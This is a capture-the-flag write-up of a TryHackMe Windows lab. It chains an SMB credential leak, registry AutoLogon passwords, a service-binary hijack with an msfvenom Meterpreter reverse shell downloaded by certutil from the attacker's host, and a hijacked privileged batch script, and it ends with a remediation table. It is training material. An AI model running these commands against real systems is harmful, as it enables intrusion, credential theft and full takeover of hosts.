



# Windows Jump — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Medium | **Target IP:** 10.64.156.49 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Windows Jump** is a standalone Windows Server 2019 host built around a chain of credential-exposure and misconfiguration bugs rather than a single exploit. An anonymously-readable SMB share leaked a new employee's default password, which worked over RDP as a guest-level user. From there, plaintext AutoLogon credentials stored in the registry handed over a second account, which in turn could hijack the writable binary of a custom Windows service to get code execution as a dedicated service account. That account held Modify rights on a script sitting in the legacy AT-jobs folder, which ran with elevated privileges; overwriting it added the service account to the local Administrators group, and refreshing its access token let Meterpreter escalate straight to SYSTEM.

**Attack chain:** SMB anonymous share → thmuser (RDP) → Winlogon registry creds → notadmin → THMSvc binary hijack → svcadmin → cleanup.bat task hijack → Administrators → SYSTEM

## 1. Reconnaissance

An Nmap scan against the target exposed SMB, RPC, RDP and WinRM; the NetBIOS domain and computer name both resolved to PRIVESC, confirming a standalone (non-domain) Windows host:

```text
nmap -Pn -sV -sC -vvv -oN scan.txt 10.64.156.49

PORT     STATE SERVICE       REASON          VERSION
135/tcp  open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 126
3389/tcp open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| ssl-cert: Subject: commonName=privesc
| Issuer: commonName=privesc
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-29T18:07:41
| Not valid after:  2027-04-30T18:07:41
| MD5:     82fa f36c 27ce e72d 6821 3ffc 341d f57b
| SHA-1:   cae1 811c 1a49 eece e844 c348 1b59 90b8 53df 6233
| SHA-256: d3b5 92c1 11ca 2e45 7554 1b04 b94e 00af f189 f52e 8dc6 d8c7 d959 3b61 b3a5 ff49
| -----BEGIN CERTIFICATE-----
| MIIC0jCCAbqgAwIBAgIQYf7w1Qi6ILFBW4aRobAFjjANBgkqhkiG9w0BAQsFADAS
| MRAwDgYDVQQDEwdwcml2ZXNjMB4XDTI2MTAyOTE4MDc0MVoXDTI3MDQzMDE4MDc0
| MVowEjEQMA4GA1UEAxMHcHJpdmVzYzCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
| AQoCggEBALpxggmZfS0M4n4UxgiBB1PakMyhiXz/xjZ30YmzCc1MY79KE3gj52wY
| 6+3QLYnqWrVb/pKgiV3vbBj1iyQ/aH+wbNXv3W9+sfYhLwnD+IXIxjdxJPnIAg69
| 6codMw4FugUb5UbMVQdD70PVNmgr3nX4TgDy4aHB5syY8Y2cYXF3y65juugmcZ+L
| zoDluLUym6A2Zzcwj4zkQdYI5zMYjdnnsx3cHsUWHnWr+RWNevVZOigm8KN/bzxY
| MdJBOYmZrJbVAU8xQauTdyP3WsrSbCIAK7UuE9oij/YqBY4h+MQ9s2Zr1ZkWClFZ
| OmkMkKk9s0TEYKRyHzUo/KPFxQScWD0CAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYB
| BQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBCwUAA4IBAQBRyDAd+JA9dW7s
| kBeykp6BfKx5GNdPUhpi7tbtE9k6I6Eg7wWmT99cgmZdzFZB0DLZBzI6/61vplrA
| +B7FosGlSXF573Wk8qKckLQMtOOf7kouxv7OO1d8bHKTVUyk0IsTO4K+x9HoLZy8
| Ttn/MzWdpyhn8fCbaUsTli/38lJxZfKn6RMqv+C97d6aNUqmcU7l3uC4MHzsWJo5
| e+2IApLgZT4RpjpVWX5sZWDRefx8gGJdXQ+96i+09Kq0e0jBK8T1i9tqDMOV6ACX
| L6MNGsted5rsgotypBUquzs8bkBOfJgRkzJVByfJDgQoRj684GQderaFVpDLU9t3
| 2LaaRvQL
|_-----END CERTIFICATE-----
|_ssl-date: 2026-10-30T18:08:05+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: PRIVESC
|   NetBIOS_Domain_Name: PRIVESC
|   NetBIOS_Computer_Name: PRIVESC
|   DNS_Domain_Name: privesc
|   DNS_Computer_Name: privesc
|   Product_Version: 10.0.17763
|_  System_Time: 2026-10-30T18:07:57+00:00
5985/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 56658/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 54588/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 35744/udp): CLEAN (Timeout)
|   Check 4 (port 49192/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-10-30T18:07:58
|_  start_date: N/A
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

## 2. SMB Share Credential Leak — Initial Access as thmuser

SMB allowed anonymous access, and listing shares revealed a `Public` share alongside the usual administrative ones:

```text
smbclient -L //10.64.156.49/ -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Public          Disk      Public file share
```

The `Public` share held a single file with default credentials for a new employee account:

```text
smbclient //10.64.156.49/Public -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon May 11 02:40:51 2026
  ..                                  D        0  Mon May 11 02:40:51 2026
  welcome.txt                         A      177  Mon May 11 02:40:50 2026
smb: \> get welcome.txt
getting file \welcome.txt of size 177 as welcome.txt (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
```

```text
cat welcome.txt
Welcome to CORP-NET.

New employee default credentials
================================
Username : thmuser
Password : Password1!

Please change your password after first login.
```

Those credentials worked over RDP:

```text
xfreerdp /u:thmuser /p:Password1! /v:10.64.156.49 /cert:ignore /dynamic-resolution
```



Browsing the local file system revealed four user profiles besides `thmuser` (`Administrator`, `notadmin`, `svcadmin`). `thmuser`'s own flag was directly readable on its desktop:

```text
type flag1.txt
THM{5mb_cr3d5_1n_th3_5h4r3}
```

`notadmin`'s profile was visible but not accessible yet:

```text
dir C:\Users\notadmin\Desktop

    Directory: C:\Users\notadmin\Desktop

-a----        5/11/2026   6:41 AM             27 flag2.txt

type C:\Users\notadmin\Desktop\flag2.txt
type : Access to the path 'C:\Users\notadmin\Desktop\flag2.txt' is denied.
```

## 3. Registry Credential Exposure — AutoLogon Leaks notadmin's Password

`thmuser` held no interesting token privileges and no stored credentials (`cmdkey`, PowerShell history both empty). Checking for AutoLogon settings in the registry exposed a second account's password in plaintext:

```text
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
AutoAdminLogon    REG_SZ    1
DefaultUserName    REG_SZ    notadmin
DefaultPassword    REG_SZ    P@ssw0rd!
AutoLogonSID    REG_SZ    S-1-5-21-1966530601-3185510712-10604624-1009
LastUsedUsername    REG_SZ    notadmin
```

Switching to that account opened a new shell as `notadmin`:

```text
runas /user:PRIVESC\notadmin cmd
```

Reading the account's own desktop recovered the second flag:

```text
C:\Users\notadmin\Desktop>type flag2.txt
THM{w1nl0g0n_cr3ds_3xp0s3d}
```

## 4. Service Binary Hijacking — Code Execution as svcadmin

`notadmin` had the same unprivileged profile as `thmuser` and still couldn't reach `svcadmin`'s desktop; `cmdkey` and PowerShell history were empty, and `net localgroup administrators` listed only the built-in `Administrator` — all dead ends. Enumerating the logon account used by each installed service surfaced one non-default entry instead — a custom service running as a dedicated service account:

```text
wmic service get name,startname
THMSvc                                    .\svcadmin
```

```text
sc.exe qc THMSvc
SERVICE_NAME: THMSvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\THMSVC\svc.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THM Background Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcadmin
```

The `THMSvc` binary itself was world-writable:

```text
icacls C:\Windows\THMSVC\svc.exe
C:\Windows\THMSVC\svc.exe Everyone:(F)
                          PRIVESC\notadmin:(I)(F)
                          BUILTIN\Administrators:(I)(F)
                          NT AUTHORITY\SYSTEM:(I)(F)
```

A `Meterpreter` payload was generated to replace it:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.131.193 LPORT=4444 -f exe -o svc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 355 bytes
Final size of exe file: 7168 bytes
Saved as: svc.exe
```

The handler was set to auto-migrate into a stable process as soon as it connects, since the Service Control Manager kills the process shortly after start when it never replies to the SCM control protocol:

```text
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.131.193
msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.131.193:4444
```

The payload was downloaded straight into the service's path, overwriting the original binary:

```text
certutil -urlcache -f http://192.168.131.193:8000/svc.exe C:\Windows\THMSVC\svc.exe
CertUtil: -URLCache command completed successfully.
```

Starting the service triggered it:

```text
sc.exe start THMSvc
```

```text
[*] Sending stage (203455 bytes) to 10.64.156.49
[*] Session ID 1 (192.168.131.193:4444 -> 10.64.156.49:50755) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against PRIVESC (10.64.156.49)
[*] Current server process: svc.exe (2352)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 5996
[+] Successfully migrated into process 5996
[*] Meterpreter session 1 opened (192.168.131.193:4444 -> 10.64.156.49:50755) at 2026-10-30 15:39:58 -0400
```

Confirming identity showed the service was now running as `svcadmin`:

```text
meterpreter > getuid
Server username: PRIVESC\svcadmin
```

Dropping into a shell and reading `svcadmin`'s desktop recovered the third flag:

```text
meterpreter > shell
C:\Users\svcadmin\Desktop>type flag3.txt
THM{s3rv1c3_b1n4ry_h1j4ck3d}
```

## 5. Privilege Escalation to SYSTEM — Scheduled Task Hijacking

A `whoami /priv` check and a `getsystem` attempt confirmed `svcadmin` had no path to SYSTEM on its own — no elevated privileges and none of Meterpreter's built-in techniques worked without admin rights. `flag4.txt` in `C:\` denied even a permission check:

```text
icacls C:\flag4.txt
C:\flag4.txt: Access is denied.
```

Browsing the filesystem manually, `C:\Windows\Tasks` — the legacy folder for AT-scheduled jobs, which run as `SYSTEM` — held a single non-default script:

```text
dir C:\Windows\Tasks

 Directory of C:\Windows\Tasks

05/11/2026  06:41 AM                41 cleanup.bat
```

```text
type C:\Windows\Tasks\cleanup.bat
@echo off
del /Q /F "%TEMP%\*.tmp" 2>nul
```

Its permissions, inherited from the folder, gave `svcadmin` Modify rights:

```text
icacls C:\Windows\Tasks\cleanup.bat
C:\Windows\Tasks\cleanup.bat BUILTIN\Users:(I)(RX)
                             PRIVESC\svcadmin:(I)(M)
                             BUILTIN\Administrators:(I)(F)
                             NT AUTHORITY\SYSTEM:(I)(F)
```

`cleanup.bat` was overwritten to add `svcadmin` to the local Administrators group:

```text
echo net localgroup administrators svcadmin /add > C:\Windows\Tasks\cleanup.bat
```

A short wait confirmed something executes it with elevated privileges:

```text
net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
svcadmin
```

The current session's access token still predated the group change, though, so reading the final flag still failed — Windows caches group membership in a token at logon time, and an already-open session keeps the old privileges until a fresh logon occurs:

```text
type C:\flag4.txt
Access is denied.
```

Restarting `THMSvc` again produced a new logon for `svcadmin` with the updated token:

```text
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.131.193:4444
[*] Sending stage (203455 bytes) to 10.64.156.49
[*] Session ID 2 (192.168.131.193:4444 -> 10.64.156.49:51177) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against PRIVESC (10.64.156.49)
[*] Current server process: svc.exe (5280)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 3444
[+] Successfully migrated into process 3444
[*] Meterpreter session 2 opened (192.168.131.193:4444 -> 10.64.156.49:51177) at 2026-10-30 16:21:06 -0400
```

```text
meterpreter > shell
C:\>type flag4.txt
THM{t4sk_wr1t3_t0_SYST3M}
```

With the account now in Administrators, `Meterpreter`'s built-in privilege escalation succeeded outright:

```text
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Default credentials for `thmuser` stored in plaintext on the anonymously-readable `Public` SMB share | Never store credentials on shares; enforce a mandatory password change before any access is granted |
| `AutoAdminLogon` enabled with `notadmin`'s password stored in plaintext in the registry | Disable `AutoAdminLogon` in production images; use a credential vault instead of registry-stored secrets |
| Custom service binary `THMSvc`, run as `svcadmin`, and its folder granted `Everyone`/low-privileged accounts Full Control | Restrict service binaries and their containing folders to `Administrators`/`SYSTEM` only |
| `cleanup.bat` in `C:\Windows\Tasks` executed with elevated privileges while writable by `svcadmin` | Apply least-privilege ACLs to any script invoked by a privileged scheduled job; audit legacy AT-job locations |
